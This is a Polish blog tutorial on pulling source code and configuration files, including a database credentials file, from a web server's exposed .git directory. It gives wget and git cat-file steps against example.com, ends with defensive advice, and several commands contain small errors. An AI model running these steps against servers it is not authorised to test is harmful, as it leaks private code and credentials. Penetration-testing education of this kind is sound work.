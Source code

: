 ```yaml
---
layout: post
title: GIT repository pentesting
subtitle: Odczytywanie zawartości folderu .git
tags: [git pentesting, web app pentesting,web aplication pentesting, pentesting, GIT LOGS HEAD]
---
```


W trakcie przeprowadzanych przez nas testów penetracyjnych aplikacji webowych czasem zdarzy się nam natrafić na katalog .git z włączonym lub wyłączonym listowaniem plików.
Developerzy często zapominają/nie są świadomi że podczas używania komendy `git clone` automatycznie tworzony jest katalog .git zawierający metadane repozytorium.
Zdarza się również że repozytorium zawiera pliki konfiguracyjne z loginami/hasłami, które powinny znaleźć się w pliku gitignore.

Jakie korzyści daje nam dostęp do folderu .git?

Jeżeli przykładowa aplikacja nie jest open sourcowa, możemy przeprowadzić analizę kodu, do którego normalnie nie mielibyśmy dostępu.
W plikach konfiguracyjnych możemy znaleźć np. poświadczenia potrzebne do połączenia się z bazą danych itp

Z perspektywy osoby przeprowadzającej testy jest to bezcenne znalezisko, jak zatem odczytać zawartość repozytorium?

W przypadku gdy włączone jest listowanie plików, sprawa jest prosta.

Tworzymy folder, do którego pobierzemy całą zawartość katalogu .git

```
mkdir gitdump
```

Przechodzimy do folderu:
```
cd gitdump
```
Pobieramy zawartość katalogu wraz z podfolderami i wszystkimi plikami.
```
wget --mirror --include-directories=/.git http://example.com/.git
```
Po pobraniu wszystkich plików przechodzimy do folderu
```
cd example.com
```
i wykonujemy polecenie
```
git reset --hard
```
Jeżeli wszystko przebiegło bez problemów zobaczymy komunikat

HEAD is now at [...]

Po wylistowaniu zawartości folderu naszym oczom powinny sie ukazać pliki z kodem źródłowym aplikacji.

Trudniejszy, ale nie niemożliwy jest podgląd plików w przypadku gdy na serwerze wyłączone jest listowanie plików.

W takim przypadku po wejściu pod przykładowy adres example.com/.git nie zobaczymy żadnych podfolderów. W zależności od konfiguracji serwera www naszym oczom ukaże się blank page lub komunikat podobny to tego poniżej
```
Directory listing not allowed  
Forbidden
```
W takim przypadku warto sprawdzić czy mamy dostęp do pliku example.com/.git/logs/HEAD
Jeżeli tak naszym oczom ukaże się zawartość pliku:
```
0000000000000000000000000000000000000000 7fe18903e7977db3a373981fb775884c9189fab9 ...
```
Pliki zawarte w repozytorium możemy w takim wypadku odczytać poprzez wykonanie poniższych czynności:

Tworzymy przykładowy folder
```
mkdir gitexaple && cd gitexample
```
Inicjalizujemy nowe repozytorium
```
git init
```
Przechodzimy do folderu ./git/objects/

Tworzymy folder z nazwą stworzoną z dwóch pierwszych znaków zawartego w pliku .git/logs/HEAD HEAD commit ID
W naszym przypadku będzie to:
```
mkdir 7e && cd 7e
```
W folderze ./git/objects/ na serwerze www znajduje sie katalog odpowiadający dwóm pierwszym znakom HEAD commit ID z pliku .git/logs/HEAD a w nim plik którego nazwa to pozostałe znaki HEAD commit ID
Pobieramy go:
```
wget http://example.com/.git/objects/7f/e18903e7977db3a373981fb775884c9189fab9
```
a następnie czytamy jego zawartość:
```
git cat-file -p 7fe18903e7977db3a373981fb775884c9189fab9
```
po wywołaniu komendy zobaczymy kilka lini tekstu, interesuje nas tree id
```
...
tree e8189a98db67ce982248c72b56e5ba2102921bff
parent b7fe7438096875631fa6f917dc4a6896cbb9bf02
...
```
Analogicznie do poprzednio wykonanych kroków w katalogu .git/objects/ tworzymy folder nazwany na podstawie dwoch pierwszych znaków tree ID e8189a98db67ce982248c72b56e5ba2102921bff i pobieramy z niego plik nazwany resztą znaków z tree ID.
```
mkdir e8 && cd e8
wget http://example.com/.git/objects/e8/189a98db67ce982248c72b56e5ba2102921bff
```
i odczytujemy zawartość pobranego pliku
```
git cat-file -p e8189a98db67ce982248c72b56e5ba2102921bff
```
W tym momencie powinna ukazać sie nam lista plików zawartych w repozytorium oraz ich commmit ID, przykładowo:
```
040000 tree 7b557a72a79b3a38512139bac573e36b44c89181 cms
040000 tree d36e87fd76488f48acc41a6a585625a569db5f88 includes
040000 tree b97734c693e55982a6f2285f28e315e7af60d272 images
100644 blob 42fd8b71db9d1f2df671601a6b90c613a1cb6c40 db-config.php
100644 blob e63a64345d5d230a247876fe5f0fcf0f31bb2345 composer.json
040000 tree fbd1d628c2562ae14cf343e0b41cf190c05bedc8 library
```
Zakładając, że chcemy odczytać zawartość pliku db-config.php ponownie w .git/object tworzymy katalog 42 i pobieramy plik fd8b71db9d1f2df671601a6b90c613a1cb6c40:
```
mkdir 42 && cd 42
wget http://example.com/.git/objects/42/fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
i oczytujemy jego zawartość:
```
git cat-file 42fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
Całość procesu można zautomatyzować w dość prosty sposób.

Co robić aby nie spotkało to także nas? Oto kilka pomysłów:

Usunięcie folderu .git po check-oucie.  
Skorzystanie z .htaccess w celu zablokowania dostępu do folderu .git.  
Trzymanie folderu .git jeden poziom wyżej, w miejscu niedostępnym dla serwera www.
